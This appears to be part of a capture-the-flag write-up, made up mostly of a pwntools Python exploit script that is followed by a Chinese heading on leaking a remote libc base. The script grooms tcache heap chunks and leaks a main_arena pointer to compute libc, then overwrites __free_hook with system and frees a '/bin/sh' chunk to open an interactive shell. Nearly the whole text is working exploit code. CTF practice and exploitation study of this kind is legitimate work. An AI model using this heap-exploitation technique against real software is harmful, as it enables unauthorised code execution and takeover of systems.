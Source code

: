 ```python


for i in range(9):
	build('a'*0x10)

for i in range(8):
	free(i)
blow_up()
for i in range(7):
	build('a'*0x4)
build('B'*7)
blow_up()
visit()
addr = (p.recvuntil("Type[7]",drop=True)[-6:].ljust(8,'\x00'))
print(addr)

print(hex(u64(addr)))
main_arena=u64(addr)-96
log.info('main_arene:'+hex(main_arena))
base=main_arena-0x3afc40
log.info('libc_base:'+hex(base))
free_hook=base+l.symbols['__free_hook']
log.info('free_hook:'+hex(free_hook))
system_addr=base+l.symbols['system']
log.info('system:'+hex(system_addr))
#gdb.attach(p)
print('4')
free(5)
free(4)
free(3)
blow_up()
free(2)
free(1)
free(0)
free(0)

build(p64(free_hook))

build('/bin/sh\x00')

build(p64(system_addr))

free(0)
#gdb.attach(p)

p.interactive()
```

## 远程libc基地址泄露
